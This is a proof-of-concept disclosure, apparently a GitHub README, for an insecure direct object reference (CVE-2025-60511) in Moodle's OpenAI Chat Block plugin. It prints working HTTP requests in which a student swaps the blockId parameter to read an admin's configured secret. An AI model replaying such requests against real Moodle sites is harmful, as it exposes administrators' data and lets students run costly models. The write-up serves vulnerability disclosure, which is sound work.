






# 🧪 Proof of Concept (PoC) – CVE-2025-60511

## 🎯 Vulnerability Summary

- **Vulnerability Type**: Insecure Direct Object Reference (IDOR)  
- **Component**: Moodle – OpenAI Chat Block Plugin (`block_openai_chat`) v3.0.1 (Build: 2025021700)  
- **Endpoint**: `/blocks/openai_chat/api/completion.php`  
- **Vulnerable Parameter**: `blockId`  
- **Impact**: Information Disclosure, Privilege Escalation, Potential Model Misuse  
- **Attack Prerequisites**: Authenticated low-privileged user (e.g., student or teacher)

---

## 🔍 Technical Description

The `completion.php` endpoint uses the `blockId` parameter to determine which chat block configuration (prompt templates, source of truth entries, model settings) to use when processing OpenAI completions.

However, there is **no access control** verifying that the user owns the block corresponding to the provided `blockId`.

This allows an **authenticated user** (such as a student) to:

- Impersonate other users’ blocks (including admins),
- Access administrator-only prompts and completions,
- Trigger queries using admin’s “source of truth” data,
- Execute high-cost models (e.g., GPT-4) improperly.

---

## 🛠️ Step-by-Step Exploit

### Prerequisites

- The attacker is a logged-in low-privileged user (e.g., student).
- The attacker has access to a valid chat block (e.g., `blockId=16` for student).
- OpenAI Chat Block Plugin is installed.
- Admin has Source of Truth configuration with:

Q: What is the admin-only secret?
A: TOP-SECRET-999

- Admin has configured the following prompt:

> **User:** `studentt`  
> **Assistant:** `Jarvis`

### Installation of Plugin



Add the plugin as Block in Moodle dashboard



Reach the plugin configuration



Configure the "Source of Truth", "User" and "Assistant" respectively:



### 🧪 Step 1 – Test with Student’s Own Block

**Request:**

```http
POST /blocks/openai_chat/api/completion.php HTTP/1.1
Host: moodle.local:8080
Content-Type: application/json
Cookie: MoodleSession=d8fek3ffegu950aum8ii9vgmvv;

{
"message": "What is the admin-only secret?",
"history": [],
"blockId": 16
}
```
Response ->

"
The admin-only secret in a Moodle site typically refers to sensitive information or settings that are restricted to administrators. This could include access credentials, configuration options, or specific features that should not be accessible to regular users for security and privacy reasons. If you need assistance with something specific related to admin settings, please provide more details! 
"

That means student cannot reach via directly their correlated blockId's. Let's intercept.

### Step 2 – Forge Request with Admin’s Block

Request:

bash```
POST /blocks/openai_chat/api/completion.php HTTP/1.1
Host: moodle.local:8080
Content-Type: application/json
Cookie: MoodleSession=d8fek3ffegu950aum8ii9vgmvv;

{
  "message": "What is the admin-only secret?",
  "history": [],
  "blockId": 15
}
```

 Response:

bash```
 {
  "id": "chatcmpl-X",
  "message": "<pre><code class=\"sql\">SELECT 'TOP-SECRET-999' AS admin_only_secret;\n</code></pre>\n"
}
```

Change blockId as 15 then forward request with "Source of Truth".



Observe that any user with lowest privilege can treat & send request as Admin user.



This proves the backend loaded the admin's Source of Truth completions.

### Impact

- Privilege Escalation: Any student can impersonate the behavior of admin blocks.

- Sensitive Information Disclosure: Admin-only prompt completions (e.g., secrets, hints) are exposed.

- Potential Resource Abuse: Admins might configure GPT-4 or high-cost models, which can be triggered by students.

### Discovered by

Onurcan Genç
Independent Security Researcher
https://linkedin.com/in/onurcangenc